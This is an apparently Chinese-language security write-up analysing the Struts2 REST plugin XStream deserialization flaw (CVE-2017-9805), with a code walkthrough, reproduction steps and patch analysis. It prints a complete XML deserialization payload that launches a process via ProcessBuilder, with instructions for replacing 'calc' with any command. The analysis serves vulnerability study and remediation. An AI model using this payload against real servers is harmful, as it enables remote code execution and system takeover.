










# Struts2-052漏洞分析


## 1.&emsp;漏洞描述 ##

* 漏洞描述：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
* 漏洞编号：CVE-2017-9805
* 漏洞作者：lgtm.com的安全研究员
* 影响版本：Version 2.5.0 to 2.5.12 和 Version 2.3.0 to 2.3.33
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

| Who should read this    |    All Struts 2 developers and users     |
| ----------------------- | :--------------------------------------: |
| Impact of vulnerability | A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests |
| Maximum security rating |                 Critical                 |
| Recommendation          | Upgrade to Struts 2.5.13 or Struts 2.3.34 |
| Affected Software       | Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12 |
| Reporter                | Man Yue Mo <mmo at semmle dot com> (lgtm.com / Semmle). More information on the lgtm.com blog: https://lgtm.com/blog |
| CVE Identifier          |              CVE-2017-9805               |

## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;本次漏洞触发点是REST插件在解析请求中的xml文件时，调用了XStreamHandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;本次漏洞的成因由两部分组成，一个是 Struts2 REST插件(struts2-rest-plugin-2.x.jar)本身没有对进入的数据进行安全检查，导致攻击者可以传入恶意的xml对象可以传入到XStream里。另一个是XStream在反序列化传入的xml造成的远程代码执行。

关键代码在org.apache.struts2.rest.ContentTypeInterceptor里。

```
 public String intercept(ActionInvocation invocation) throws Exception {
        HttpServletRequest request = ServletActionContext.getRequest();
        ContentTypeHandler handler = selector.getHandlerForRequest(request);
        
        Object target = invocation.getAction();
        if (target instanceof ModelDriven) {
            target = ((ModelDriven)target).getModel();
        }
        
        if (request.getContentLength() > 0) {
            InputStream is = request.getInputStream();
            InputStreamReader reader = new InputStreamReader(is);
            handler.toObject(reader, target);
        }
        return invocation.invoke();
    }
```

**ContentTypeHandler handler = selector.getHandlerForRequest(request);** 通过request数据获取执行方法：org.apache.struts2.rest.handler.XStreamHandler

**handler.toObject(reader, target);** 对获取到的序列化的xml数据进行反序列化操作，在这一阶段将序列化的恶意POC进行反序列化操作并造成代码执行。

这里我们直接断点打在上文说的两个地方，用恶意payload进行攻击。




我们可以看到整个的调用栈，找到断点处，f5进入断点逻辑，可以看到在标记处获取Content-Type的值为：application/xml。



继续debug，可以看到根据我们获取到的content-type值从而得到我们代码执行的调用栈地址：



指定了我们的处理方法，继续断点到handler.toObject(reader, target);处：



f5进去toObject函数方法，继续执行，在XStreamHanler.toObject调用了XStream的fromXml，从而进入反序列化流程：



继续执行，看到反序列化函数unmarshal，在这个函数执行时没有进行数据安全检查，导致远程代码执行。



返回执行结果：



## 4.&emsp;漏洞复现 ##

1. 通过网上下载含有struts2-rest-plugin-2.5.12.jar版本的官方环境[struts2-rest-showcase-2.5.12.war](https://github.com/yaofeifly/Struts2-052-POC "https://github.com/yaofeifly/Struts2-052-POC")。
2. 将下载的war包通过eclipse导入到工程中，File--->Import---->war file。

  
3. 需要注意的是，由于javax.imageio的依赖关系，我们的环境的jdk版本需要是jdk8以上，jdk8某些低版本也是不行的，本文作者的版本是jdk8_111，后续的一些验证都是在这个版本上做的。
4. 启动工程，然后通过burpsuite进行抓包，然后Send to Reapeater 进行数据包篡改。

  

5. 主要POC为：

   ```xml
   <map> 
   <entry> 
   <jdk.nashorn.internal.objects.NativeString> 
   <flags>0</flags> 
   <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> 
   <dataHandler> 
   <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
   <is class="javax.crypto.CipherInputStream"> 
   <cipher class="javax.crypto.NullCipher"> 
   <initialized>false</initialized> 
   <opmode>0</opmode> 
   <serviceIterator class="javax.imageio.spi.FilterIterator"> 
   <iter class="javax.imageio.spi.FilterIterator"> 
   <iter class="java.util.Collections$EmptyIterator"/> 
   <next class="java.lang.ProcessBuilder"> 
   <command> 
   <string>calc</string> 
   </command> 
   <redirectErrorStream>false</redirectErrorStream> 
   </next> 
   </iter> 
   <filter class="javax.imageio.ImageIO$ContainsFilter"> 
   <method> 
   <class>java.lang.ProcessBuilder</class> 
   <name>start</name> 
   <parameter-types/> 
   </method> 
   <name>foo</name> 
   </filter> 
   <next class="string">foo</next> 
   </serviceIterator> 
   <lock/> 
   </cipher> 
   <input class="java.lang.ProcessBuilder$NullInputStream"/> 
   <ibuffer></ibuffer> 
   <done>false</done> 
   <ostart>0</ostart> 
   <ofinish>0</ofinish> 
   <closed>false</closed> 
   </is> 
   <consumed>false</consumed> 
   </dataSource> 
   <transferFlavors/> 
   </dataHandler> 
   <dataLen>0</dataLen> 
   </value> 
   </jdk.nashorn.internal.objects.NativeString> 
   <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> 
   </entry> <entry> 
   <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
   <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
   </entry> 
   </map>
   ```

**注意事项：** 

1. 注意如果数据包请求方式为GET的话需要修改为POST请求方式。
2. 注意修改Content-Type的值为：application/xml。
  3. 该POC为windows服务器上弹出计算器payload,若想修改为其他执行payload，将`<string>calc</string>`中的calc替换为你想执行的命令，空格用多个 `<string></string>	`标签嵌套。

## 5.&emsp;修复方案 ##

### 5.1&emsp;补丁分析 ###

对struts2-rest-plugin-2.5.12.jar中的struts-plugin.xml进行分析，可以看到XStreamHanler就是Content-Type:xml的默认处理句柄，而且可以看出xml是默认支持格式，这也就是说存在rest插件就会存在XStream的反序列化漏洞。



通过对比[官方的补丁](https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264 "https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264"),我们可以看到最主要的修复逻辑在plugins/rest/src/main/java/org/apache/struts2/rest/handler/XStreamHandler.java中：



在官方的修复方案中,主要就是将xml中的数据白名单化，把Collection和Map，一些基础类，时间类放在白名单中，这样就能阻止XStream反序列化的过程中带入一些有害类。

### 5.2&emsp;修复建议 ###

1. Version 2.3.0 to 2.3.33升级到Struts 2.3.34版本
2. Version 2.5.0 to 2.5.12升级到Struts 2.5.13版本